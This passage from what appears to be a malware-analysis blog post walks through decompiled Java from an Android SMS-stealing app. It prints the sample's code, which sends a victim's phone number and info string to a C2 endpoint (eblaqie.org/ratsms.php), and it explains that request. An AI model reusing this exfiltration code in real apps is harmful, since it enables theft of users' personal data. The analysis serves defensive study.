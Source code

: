 ```java
        AndroidNetworking.get("https://eblaqie.org/ratsms.php?phone=" + str + "&info=" + str2).build().getAsJSONArray(new JSONArrayRequestListener(this, str, str2) { 
            final connect this$0;  
            final String val$info;  
            final String val$url;  
  
            {  
                this.this$0 = this;  
                this.val$url = str;  
                this.val$info = str2;  
            }  
    
            public void onError(ANError aNError) {  
                Log.i("==================", "erroeererewrwerwer");  
                AndroidNetworking.get("https://google.com" + this.val$url + "&info=" + this.val$info).build().getAsJSONArray(new JSONArrayRequestListener(this) { 
                    final AnonymousClass1 this$1;  
  
                    {  
                        this.this$1 = this;  
                    }  
  
                    public void onError(ANError aNError2) {  
                        Log.i("==================", "erroeererewrwerwer");  
                    }  
  
                    public void onResponse(JSONArray jSONArray) {  
                    }  
                });  
            }  
  
            public void onResponse(JSONArray jSONArray) {  
            }  
        });  
    }  
}
```

This function is very simple. It sends a request to `"https://eblaqie.org/ratsms.php?phone=" + arg1 + "&info=" + arg2` (For instance in the call we've seen in main it would contact `https://eblaqie.org/ratsms.php?phone=THE_PHONE_NUMBER_IN_THE_EDITTEXT&info=شماره موبایل خود را وارد نمایید` to signify that the malware got a new target) and the performs some error checking. Unfortunately, `eblaqie.org` is down now (I've also checked on WaybackMachine) so we can't test this further, but Virustotal shows that the site is malicious:
![virustotal-of-c2](/assets/img/smsstealer/virustotal_of_c2.png)
_The VirusTotal of the C2_
Now let's analyze `MainActivity2`:
